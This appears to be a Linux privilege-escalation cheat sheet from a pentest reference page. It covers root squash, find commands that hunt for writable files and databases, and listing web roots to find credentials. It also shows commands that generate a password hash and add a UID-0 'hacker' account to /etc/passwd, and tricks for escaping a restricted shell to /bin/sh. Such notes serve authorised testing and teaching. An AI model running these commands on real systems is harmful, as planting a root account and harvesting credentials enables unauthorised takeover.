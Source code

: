 Root squash is a special mapping of the remote superuser (root) identity when using identity authentication

Under root squash, a client's uid 0 (root) is mapped to 65534 (nobody).

##### All Files/Folder

```bash
find / -name *.db -print 2>/dev/null  # SQlite files
find . -type d -perm -g=x 2>/dev/null
find . -perm -u=x 2>/dev/null
find / -writable ! -user `whoami` -type f ! -path "/proc/*" ! -path "/sys/*" -exec ls -al {} \; 2>/dev/null # Writable files
```

Interesting files:

- /etc/sysconfig/network-scripts/ifcfg-xxx (Centos/Redhat):
  [source](https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f)
- /etc/passwd

  ```bash
  # First generate a password with one of the following commands.
  openssl passwd -1 -salt hacker hacker
  mkpasswd -m SHA-512 hacker
  python2 -c 'import crypt; print crypt.crypt("hacker", "$6$salt")'
  # Then add the user hacker and add the generated password.
  hacker:GENERATED_PASSWORD_HERE:0:0:Hacker:/root:/bin/bash
  ```

##### Websites location enumeration

Websites location may help us to:

- Find credentials and/or comments in files that are only available on the back-end
- Websites files that are not yet available in either dev, stage, test or production

```bash
ls -alhR /var/www/
ls -alhR /srv/www/htdocs/
ls -alhR /usr/local/www/apache22/data/
ls -alhR /opt/lampp/htdocs/
ls -alhR /var/www/html/
```

### Getting /bin/sh

#### Quick test

```bash
# It may be allowed to simply run it
/bin/sh
# Adding /bin/sh to PATH and/or SHELL
export PATH=/bin:/usr/bin:/sbin:$PATH
export SHELL=/bin/sh
# Using chsh (Command used to change your login shell.)
chsh
/bin/bash
# Allow to copy from /bin
cp /bin/sh /current/directory; sh
```
